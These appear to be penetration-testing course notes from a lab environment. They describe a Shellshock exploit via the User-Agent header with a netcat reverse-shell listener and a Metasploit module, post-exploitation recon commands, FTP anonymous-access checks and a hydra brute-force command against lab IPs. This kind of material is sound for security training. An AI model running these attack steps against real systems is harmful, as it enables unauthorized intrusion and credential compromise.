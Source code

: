 Will then search the location of the script with burp proxy on 
+ In this example it would be `192.24.241.3/gettime.cgi`
+ Which will catch the following:

![](OGBurpCapture.png)

Will then <mark style="background: #FFF3A3A6;">change the User-Agent info</mark> to have the `() [:;];.` characters followed by the commands we want to run 

![](ShellshockexploitBurp.png)

Can now <mark style="background: #ADCCFFA6;">use this to setup a Reverse Shell</mark>
+ Will first set up a Kali listener 
  + Example `nc -nvlp 1234`
+ Then will send the following:

![](ShellshockManualReverseShell.png)

Can do things such as 
+ `whoami`
+ see distribution with `cat /etc/*issue`
+ Kernel info with `uname -a`

Can automate this process with <mark style="background: #FF5582A6;">msfconsole</mark>
+ can `search shellshock`
+ `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
+ `set RHOSTS 192.45.16.3`
+ specify the path to the `.cgi` script with `set TARGETURI /gettime.cgi`
+ After running it, will have a meterpreter session 

### Exploiting FTP 
+ <mark style="background: #BBFABBA6;">FTP</mark> (File Transfer Protocol) uses TCP port 21 and is used to facilitate file sharing between a server and clients
+ Frequently used as a means of transferring files to and from the director of a web server 
+ FTP authentication requires a username and password combination. So we can brute-force attack on the FTP server in order to identify legitimate credentials
+ In some cases, FTP servers may be configured to allow anonymous access, which consequently allows anyone to access the Ftp server without providing any legitimate credentials

Can check for <mark style="background: #ADCCFFA6;">anonymous access</mark> with the following ways 
+ `ftp TARGET_IP` and then put `anonymous` for the user name, skip the password (enter)
+ or use an nmap script specifically:  <mark style="background: #FFB86CA6;">--script=ftp-anon</mark>
  + <mark style="background: #FF5582A6;">Note:</mark> can look for nmap scripts with `ls -al /usr/share/nmap/scripts/ | grep ftp-*`

Can also <mark style="background: #FFF3A3A6;">brute-force</mark> with <mark style="background: #D2B3FFA6;">hydra</mark>
+ Example: `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.27.30.3 -t 4 ftp`
	+ `-L` specifies user list
	+ `-P` specifies password list
	+ `-t` specifies numbers of threads 
	+ `ftp` is used to specify the service
